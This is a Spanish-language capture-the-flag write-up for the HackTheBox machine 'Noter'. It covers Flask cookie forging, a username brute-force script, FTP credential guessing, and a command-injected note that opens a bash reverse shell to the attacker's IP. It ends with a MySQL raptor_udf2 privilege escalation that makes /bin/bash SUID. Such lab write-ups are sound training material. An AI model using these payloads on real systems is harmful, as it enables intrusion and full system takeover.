


Resolución de la máquina Noter de la plataforma de HackTheBox
Iniciamos escaneando los puertos de la máquina con nmap
❯ nmap 10.10.11.160
Nmap scan report for 10.10.11.160
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
5000/tcp open upnp
Continuamos en la web puerto 5000 donde despues de registrarnos podemos ver que la cookie es un jwt

Ahora que sabemos eso podemos cambiar la sesión pero antes necesitamos el secreto, la herramienta flask-unsign nos puede ayudar con eso
❯ flask-unsign --unsign --no-literal-eval --wordlist /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt --cookie eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiZ2F0byJ9.YqEOyA.lwTwLNvqoMxCDXfZLY-POkUyuQA
[*] Session decodes to: {'logged_in': True, 'username': 'gato'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 17920 attempts
b'secret123'
Tenemos un secreto valido "secret123" ahora necesitamos conseguir un usuario al cual robarle la sesión, para eso hice el siguiente script para aplicar fuerza bruta
#!/usr/bin/python3
from pwn import *
import requests
if len(sys.argv) < 2:
print(f"\n[\033[1;31m-\033[1;37m] Uso: python3 {sys.argv[0]} dicccionario\n")
sys.exit(1)
print("\n[\033[1;34m*\033[1;37m] Iniciando fuerza bruta")
target = "http://10.10.11.160:5000/login"
dictionary = open(sys.argv[1])
bar = log.progress("Probando usuario")
time.sleep(1)
for line in dictionary:
username = line.strip()
data = {'username': username,'password':'password'}
request = requests.post(target, data=data)
bar.status("%s" % (username))
response = request.text
if "Invalid login" in response:
print(f"[\033[1;32m+\033[1;37m] El usuario {username} es válido\n")
Basta con ejecutar el exploit con un diccionario y nos encuentra el usuario blue válido
❯ python3 exploit.py /usr/share/seclists/Usernames/Names/names.txt
[*] Iniciando fuerza bruta
[v] Probando usuario: zylen
[+] El usuario blue es válido
Ahora con la misma herramienta podemos crear una cookie valida para el usuario blue, ahora podemos cambiarla en el navegador y obtener acceso como blue
❯ flask-unsign --sign --legacy --secret 'secret123' --cookie "{'logged_in': True, 'username': 'blue'}"
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.YqENTQ.o5d8Lj-UjrokeY0-fvae-HYreCc
Ahora si miramos el apartado de notas podemos encontrar una nota llamada Noter Premium Membership la cual contiene lo siguiente
Hello, Thank you for choosing our premium service. Now you are capable of
doing many more things with our application. All the information you are going
to need are on the Email we sent you. By the way, now you can access our FTP
service as well. Your username is 'blue' and the password is 'blue@Noter!'.
Make sure to remember them and delete this.
(Additional information are included in the attachments we sent along the
Email)
We all hope you enjoy our service. Thanks!
ftp_admin
Sabiendo que quien dejó la nota es ftp_admin y siguiendo la lógica de la contraseña podemos deducir que ftp_admin@Noter! es una posible contraseña valida para ftp y efectivamente nos conecta asi que nos descargamos todo lo que hay
❯ ftp 10.10.11.160
Connected to 10.10.11.160.
Name: ftp_admin
Password: ftp_admin@Noter!
230 Login successful.
ftp> dir
-rw-r--r-- 1 1003 1003 25559 Nov 01 2021 app_backup_1635803546.zip
-rw-r--r-- 1 1003 1003 26298 Dec 01 2021 app_backup_1638395546.zip
ftp> get app_backup_1635803546.zip zip1.zip
226 Transfer complete.
ftp> get app_backup_1638395546.zip zip2.zip
226 Transfer complete.
Una vez los descomprimimos si buscarmos las diferencias entre los .py nos encontramos con una contraseña y una función /export_note
❯ diff zip1/app.py zip2/app.py
< app.config['MYSQL_USER'] = 'root'
< app.config['MYSQL_PASSWORD'] = 'Nildogg36'
---
> app.config['MYSQL_USER'] = 'DB_user'
> app.config['MYSQL_PASSWORD'] = 'DB_password'
---
> # Export notes
> @app.route('/export_note', methods=['GET', 'POST'])
Vemos que podemos cargar una nota en md desde una url aprovechandonos de eso podemos hacer una reverse shell
❯ cat note.md
--';bash -i >& /dev/tcp/10.10.14.10/443 0>&1;'--
❯ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

❯ sudo netcat -lvnp 443
Connection received on 10.10.11.160
svc@noter:~/app/web$ cat ~/user.txt
a5b***********************fac
svc@noter:~/app/web$ls
La manera de escalar privilegios es mediante mysql, buscando por las tablas no es que podamos encontrar mucho pero podemos intentar usar el siguiente exploit simplemente subiremos el archivo .c a la maquina victima, renombraremos a raptor_udf2.c y seguiremos los siguientes pasos
svc@noter:~$ gcc -g -c raptor_udf2.c
svc@noter:~$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
svc@noter:~$ mysql -u'root' -p'Nildogg36'
MariaDB [(none)]> use mysql;
Database changed
MariaDB [mysql]> create table foo(line blob);
Query OK, 0 rows affected
MariaDB [mysql]> insert into foo values(load_file('/home/svc/raptor_udf2.so'));
Query OK, 1 row affected
MariaDB [mysql]> select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so';
Query OK, 1 row affected
MariaDB [mysql]> create function do_system returns integer soname 'raptor_udf2.so';
Query OK, 0 rows affected
MariaDB [mysql]> select * from mysql.func;
+-----------+-----+----------------+----------+
| name | ret | dl | type |
+-----------+-----+----------------+----------+
| do_system | 2 | raptor_udf2.so | function |
+-----------+-----+----------------+----------+
MariaDB [mysql]> select do_system('chmod u+s /bin/bash');
+----------------------------------+
| do_system('chmod u+s /bin/bash') |
+----------------------------------+
| 0 |
+----------------------------------+
MariaDB [mysql]> exit
Bye
Si todo salió bien la bash deberia ser suid ahora el ejecutarlo como el propietario deberiamos de ser root
svc@noter:~$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt
66e***********************c68
bash-5.0#